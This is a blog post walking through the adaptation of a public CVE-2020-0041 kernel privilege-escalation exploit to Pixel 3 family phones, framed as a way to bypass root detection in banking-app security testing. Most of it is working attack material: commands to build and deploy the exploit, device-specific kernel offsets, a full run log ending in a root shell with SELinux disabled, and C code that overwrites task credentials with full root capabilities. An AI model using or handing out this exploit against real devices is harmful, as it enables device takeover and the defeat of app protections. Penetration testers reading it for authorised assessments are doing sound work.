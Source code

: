 +++ 
title = "Bypassing root detection on Pixel 3 devices" 
date = "2022-02-27" 
author = "Joan Calabrés"  
description = "Adapting the CVE-2020-0041 privilege escalation exploit for Pixel 3 family devices in order to bypass root detection." 
+++

There are different root frameworks that can be used on Android in order to obtain root privileges. Usually, during Android application security evaluations, root detection is tested in different ways. Application countermeasures such as root detection are easy to bypass in most of the Android applications and sometimes without the use of reverse engineering techniques; however, as I've been seen during the analysis of banking applications, bypassing root detection on these applications can be hard and time consuming due high obfuscation and countermeasures applied.

A common procedure in the industry is the adaptation of privilege escalation exploits that are not detectable by most of the applications. In this post I will explain how to adapt [bluefrostsecurity](https://labs.bluefrostsecurity.de/blog/2020/04/08/cve-2020-0041-part-2-escalating-to-root/) **CVE-2020-0041** PoC for Pixel 3 to all the Pixel3 family devices. Furthermore, I will provide an improvement to obtain a non-limited root shell. 

## Table of Contents
- [Table of Contents](#table-of-contents)
- [Requirements](#requirements)
- [Adapting the exploit](#adapting-the-exploit)
- [Testing the exploit](#testing-the-exploit)
- [Issues & improvements](#issues-&-improvements)

## Requirements

* Download the **CVE-2020-0041** PoC exploit that we will be using for the modifications:

```bash
git clone https://github.com/bluefrostsecurity/CVE-2020-0041
```

* In order to adapt the exploit for any Pixel 3 device, the specific Pixel 3 vulnerable firmware **(QQ1A.200205.002)** needs to be downloaded from [official website](https://developers.google.com/android/images). A list of the specific devices links can be found below:

    * [Pixel 3 XL](https://dl.google.com/dl/android/aosp/crosshatch-qq1a.200205.002-factory-3e5c17fd.zip)

    * [Pixel 3a XL](https://dl.google.com/dl/android/aosp/bonito-qq1a.200205.002-factory-238bc80e.zip)

    * [Pixel 3a](https://dl.google.com/dl/android/aosp/sargo-qq1a.200205.002-factory-36d5179f.zip)

* Download [abootimg](https://github.com/ggrandou/abootimg) and compile it:

```bash
git clone https://github.com/ggrandou/abootimg
cd abootimg
make
```

* Download and install [vmlinux-to-elf](https://github.com/marin-m/vmlinux-to-elf) tool using python pip:

```bash
sudo apt install python3-pip
sudo pip3 install --upgrade lz4 git+https://github.com/marin-m/vmlinux-to-elf
```

* In addition, we will need the **Android NDK** in our path in order to compile the exploit. As an example, I have this line on my .zshrc file.

```bash
export NDK="/home/calabres/NDK"
```

## Adapting the exploit

1. First of all we need to extract the compressed kernel image from the boot.img. For that, we will use the already downloaded tool **abootimg**.

```bash
./abootimg -x [path_to_boot_img]
```

The produced **zImage**, is an image that contains the compressed Android Kernel.

2. In order to obtain an uncompressed image of the Kernel that contains correct symbols and offsets, use the [vmlinux-to-elf](https://github.com/marin-m/vmlinux-to-elf) tool.

```bash
vmlinux-to-elf [path_to_zImage] kernel.elf
```

3. Use the disassembler of your preference to find the labels related with the exploit offsets found in exploit.c. The labels to find inside the kernel are the following:

```c
SELINUX_ENFORCING_OFFSET 
MEMSTART_ADDR_OFFSET 
SYSCTL_TABLE_ROOT_OFFSET
PROC_DOUINTVEC_OFFSET
INIT_TASK_OFFSET
INIT_CRED_OFFSET
OFFSET_PIPE_FOP
```

4. Change exploit.c offsets for the offsets found in your device kernel image, in my case Pixel 3a offsets are:

```c
#define SELINUX_ENFORCING_OFFSET 0x2ffe000
#define MEMSTART_ADDR_OFFSET 0x23a6390
#define SYSCTL_TABLE_ROOT_OFFSET 0x2dda178
#define PROC_DOUINTVEC_OFFSET 0x19e8758
#define INIT_TASK_OFFSET 0x2da1e00L
#define INIT_CRED_OFFSET 0x2db0238
#define OFFSET_PIPE_FOP 0x2173650
```

## Testing the exploit 

>The exploit can be built by simply running "make" with the Android NDK in the path. It can also be pushed to a phone attached with adb by doing "make all push". Now just run /data/local/tmp/poc from an adb shell to see the exploit running:

{{< code language="bash" title="Exploit execution output" id="1" expand="Show" collapse="Hide" isCollapsed="true" >}}
[+] Mapped 200000
[+] selinux_enforcing before exploit: 1
[+] pipe file: 0xffffffd9c67c7700
[*] file epitem at ffffffda545d7d00
[*] Reallocating content of 'write8_inode' with controlled data.[DONE]
[+] Overwriting 0xffffffd9c67c7720 with 0xffffffda545d7d50...[DONE]
[*] Write done, should have arbitrary read now.
[+] file operations: ffffff97df1af650
[+] kernel base: ffffff97dd280000
[*] Reallocating content of 'write8_selinux' with controlled data.[DONE]
[+] Overwriting 0xffffff97dfe24000 with 0x0...[DONE]
[*] init_cred: ffffff97dfc300a0
[+] memstart_addr: 0xffffffe700000000
[+] First level entry: ceac5003 -> next table at ffffffd9ceac5000
[+] Second level entry: f173c003 -> next table at ffffffd9f173c000
[+] sysctl_table_root = ffffff97dfc5a3f8
[*] Reallocating content of 'write8_sysctl' with controlled data.[DONE]
[+] Overwriting 0xffffffda6da8d868 with 0xffffffda49ced000...[DONE]
[+] Injected sysctl node!
[*] Node write8_inode, pid 7058, kaddr ffffffda0723f900
[*] Replaced sendmmsg dangling reference
[*] Replaced sendmmsg dangling reference
[*] Replaced sendmmsg dangling reference
[*] Node write8_selinux, pid 6848, kaddr ffffffd9c9fa2400
[*] Replaced sendmmsg dangling reference
[*] Replaced sendmmsg dangling reference
[*] Replaced sendmmsg dangling reference
[*] Node write8_sysctl, pid 7110, kaddr ffffffda67e7d180
[*] Replaced sendmmsg dangling reference
[*] Replaced sendmmsg dangling reference
[*] Replaced sendmmsg dangling reference
[+] Cleaned up sendmsg threads
[*] epitem.next = ffffffd9c67c7720
[*] epitem.prev = ffffffd9c67c77d8
^[[*] Launching privileged shell
root_by_cve-2020-0041:/ # id   
uid=0(root) gid=0(root) groups=0(root) context=u:r:kernel:s0
root_by_cve-2020-0041:/ # getenforce
Permissive
root_by_cve-2020-0041:/ # 
{{< /code >}}

I use to run [rootbeer](https://play.google.com/store/apps/details?id=com.scottyab.rootbeer.sample&hl=es_419&gl=US) sample app for a fast root detection test. Despite this third party library is not using the same detection methods as banking applications is a good way to get an idea of how much is hidden your rooted device. 

<img src="/posts/img/rootbeer.png" alt="rootbeer root detection" style="height:200px;margin:0 20px 10px 0">

## Issues & improvements

After the adaptation of the exploit and its execution, you will obtain a root shell; however, this root shell is very limited and you will have some problems executing binaries and creating files. 

Finding on the Internet I found the issue: *you need to patch the security context of the root user.*

During the exploit execution the process executed need to be patched with the correct security context for the root user. The next function is used to patch the credentials of a specific address:


{{< code language="c" title="Patching task credentials" id="2" expand="Show" collapse="Hide" isCollapsed="true" >}}
void patch_task_cred(uint64_t cred_addr, uint32_t init_sid)
{
    uint64_t val;
    struct cred *cred = (void *)cred_addr;
    struct task_security_struct *sec;

    if (cred == NULL)
        return;

    val = 0;
    write32((uint64_t)&cred->uid, val);
    write32((uint64_t)&cred->gid, val);
    write32((uint64_t)&cred->suid, val);
    write32((uint64_t)&cred->sgid, val);
    write32((uint64_t)&cred->euid, val);
    write32((uint64_t)&cred->egid, val);
    write32((uint64_t)&cred->fsuid, val);
    write32((uint64_t)&cred->fsgid, val);
    write32((uint64_t)&cred->securebits, val);

    val = ~(0UL);
    write64((uint64_t)&cred->cap_inheritable, val);
    write64((uint64_t)&cred->cap_permitted, val);
    write64((uint64_t)&cred->cap_effective, val);
    write64((uint64_t)&cred->cap_bset, val);
    //write64((uint64_t)&cred->cap_ambient, val);

    sec = (void *)read64((uint64_t)&cred->security);

    if (sec != NULL) {
        write32((uint64_t)&sec->osid, init_sid);
        write32((uint64_t)&sec->sid, init_sid);
    }
}
{{< /code >}}
